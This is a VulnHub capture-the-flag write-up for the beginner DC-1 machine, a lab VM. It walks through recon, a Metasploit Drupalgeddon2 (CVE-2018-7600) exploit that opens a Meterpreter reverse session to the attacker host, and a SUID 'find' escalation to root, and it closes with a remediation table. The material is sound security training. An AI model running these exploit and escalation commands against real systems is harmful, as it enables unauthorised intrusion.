





# DC-1 — VulnHub Writeup

**Platform:** VulnHub | **Difficulty:** Beginner | **Target IP:** 192.168.32.136 | **Attacker IP:** 192.168.32.128

## Machine info



## Summary

**DC-1** is a Beginner VulnHub machine built around an outdated Drupal 7 install. An unauthenticated Drupalgeddon2 (CVE-2018-7600) exploit grants a shell as `www-data`, and a SUID bit left on `/usr/bin/find` provides a direct path to root.

**Attack chain:** Nmap recon → Web enumeration (Drupal 7 fingerprinting) → Drupalgeddon2 exploitation (Metasploit) → SUID privilege escalation (find) → Root

## 1. Reconnaissance





```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 192.168.32.136
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
50322/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

Apache is fingerprinted as Drupal 7 via `http-generator`.

## 2. Web Enumeration



```
gobuster dir -u http://192.168.32.136/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
index.php            (Status: 200) [Size: 7627]
install.php          (Status: 200) [Size: 3151]
README               (Status: 200) [Size: 5376]
robots               (Status: 200) [Size: 1561]
```

`install.php` confirms the site is a live Drupal 7 install.

## 3. Exploitation (Drupalgeddon2)

```
searchsploit Drupal 7
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution | php/webapps/44449.rb
```

```
msf > search Drupal < 7.58
0   exploit/unix/webapp/drupal_drupalgeddon2  2018-03-28  excellent  Yes  Drupal Drupalgeddon 2 Forms API Property Injection

msf > use 0
msf exploit(unix/webapp/drupal_drupalgeddon2) > set lhost 192.168.32.128
msf exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.32.136
msf exploit(unix/webapp/drupal_drupalgeddon2) > exploit
[*] Meterpreter session 1 opened (192.168.32.128:4444 -> 192.168.32.136:58119) at 2026-09-21 14:22:53 -0400
```

CVE-2018-7600 (Drupalgeddon2) grants a Meterpreter session without authentication.

## 4. Post-Exploitation

```
meterpreter > shell
Process 3304 created.
Channel 0 created.
script /dev/null -c bash
www-data@DC-1:/var/www$ export TERM=xterm
```

## 5. Privilege Escalation

```
www-data@DC-1:/var/www$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

`/usr/bin/find` carries the SUID bit, allowing arbitrary command execution as root.

```
find . -exec /bin/bash -p \; -quit
```



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Outdated Drupal 7 core vulnerable to Drupalgeddon2 (CVE-2018-7600), an unauthenticated RCE | Keep CMS core and modules patched; upgrade to a supported Drupal version |
| `/usr/bin/find` has the SUID bit set, allowing any local user to spawn a root shell | Remove unnecessary SUID bits from system binaries; audit regularly with `find / -perm -4000` |
